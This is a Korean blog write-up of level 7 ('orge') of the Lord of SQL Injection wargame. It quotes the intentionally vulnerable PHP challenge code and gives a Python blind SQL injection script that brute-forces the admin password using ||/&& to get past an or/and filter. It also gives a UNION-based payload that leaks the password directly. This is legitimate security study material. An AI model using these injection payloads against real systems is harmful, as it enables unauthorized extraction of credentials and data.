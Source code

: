 ```yaml
---
title: Lord of SQL Injection Write Up No.7 Orge
date: 2019-08-18 02:10:31
updated:
categories:
  - Write Up
tags:
  - Lord of SQL Injection
  - Infosec
---
```


## 개요

{% img /image/los-main.png 300 %}

SQL Injection에 대한 지식을 쌓기 위해 [Lord of SQL Injection 사이트](https://los.eagle-jump.org/)의 문제를 풀고 해답을 정리한다.

이 문서에서는 Lord of SQL Injection 7번 orge 문제에 대하여 정리한다.

<!-- more -->

## 문제 분석

### 문제 출제 의도

`OR`, `AND`를 사용하지 않고 Blind SQL Injection을 수행하여 원하는 문자열을 얻어낼 수 있는지 확인한다.
또는 `UNION` 구문과 `LIMIT`을 이용하여 원하는 문자열을 얻어낼 수 있는지 확인한다.

### 소스 코드 분석

orge 문제의 php 소스 코드는 다음과 같다.

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge");
  highlight_file(__FILE__);
?>
```

#### Filter

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe");
```

- GET방식으로 `pw`를 받고, `pw`에 `prob`, `_`, `.`, `()` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.
- 또한, `pw`에 대소문자 구분 없이 `or`, `and` 가 들어 있으면 `HeHe`가 뜨고 문제 풀이에 실패한다.

#### Query

```php
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge");
```

- 받은 `pw`가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.
- `$result['id']`에 참이 되는 어떤 값이든 들어 있으면 응답에 `"Hello "`와 `$result[id]` 값을 붙인 문자열이 포함된다.
- 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 `pw`와 GET 방식으로 전달받은 `pw`가 같음'이다. 즉, 실제 데이터베이스에 저장된 `pw`를 알아내서 전달해야 한다.

## Solution

1. SUBSTR 함수 활용

   Blind SQL Injection 문제이므로 4번 orc 문제에서 이용한 코드를 수정하여 활용한다.

   ```python
   import urllib.request
   from urllib.parse import quote

   key = ""

   # 4번 orc 문제에서 이용한 코드에서 추가된 부분
   pwlen = 0 # pw의 길이값을 저장한 변수

   for i in range(1, 20): # pw의 길이를 알아내기 위한 반복문. 길이가 1보다 크거나 같고 20보다 작다는 전제 하에 작동한다. 만약 길이를 알아내는 데 실패하면 범위를 넓힌다.
       url = "http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw="
       data = "' || id='admin' && length(pw)='{}'#".format(str(i)) # length() 함수를 통해 pw의 길이를 알아내는 부분이다.
       print(data)
       data = quote(data)
       re = urllib.request.Request(url + data)

       re.add_header(
           "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36")
       re.add_header(
           "Cookie", "PHPSESSID=jaqm7mrah73p9vvsj7mlp8ec23"
       )

       req = urllib.request.urlopen(re)

       if str(req.read()).find("Hello admin") != -1:
           pwlen = i # pw의 길이를 pwlen 변수에 저장한다.
           print('pw length : ' + str(pwlen))
           break
   # /4번 orc 문제에서 이용한 코드에서 추가된 부분

   for i in range(1, pwlen + 1): # i에는 1부터 pwlen까지 들어가도록 반복문을 구성
       for j in range(32, 127):
           url = "http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw="
           data = "' || id='admin' && substr(pw, 1, {})='{}'#".format( # or, and 를 ||, && 로 수정
               str(i), key + chr(j))
           print(data)
           data = quote(data)
           re = urllib.request.Request(url + data)

           re.add_header(
               "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36")
           re.add_header(
               "Cookie", "PHPSESSID=jaqm7mrah73p9vvsj7mlp8ec23"
           )

           req = urllib.request.urlopen(re)

           if str(req.read()).find("Hello admin") != -1:
               key += chr(j).lower()
               print(key)
               break
   print(key)
   ```

   이러한 코드를 실행하면 결과값으로 `6c864dec`를 출력한다.
   이를 GET 방식으로 `pw`의 값으로 전달하면 풀린다.

   ```url
   http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw=6c864dec
   ```

2. `UNION` 구문 및 `LIMIT` 구문 이용

   7번 문제는 `UNION` 구문을 필터링 하지 않고 있으므로 `UNION`을 통해 바로 `pw`값을 알아내는 시도를 해볼 수 있다.

   ```url
   http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw=-1' || @a:=pw %26%26 0 union select @a-- -
   ```

   ```sql
   select id from prob_orge where id='guest' and pw='' || @a:=pw && 0 union select @a-- -'
   ```

   `Hello 6c864dec`
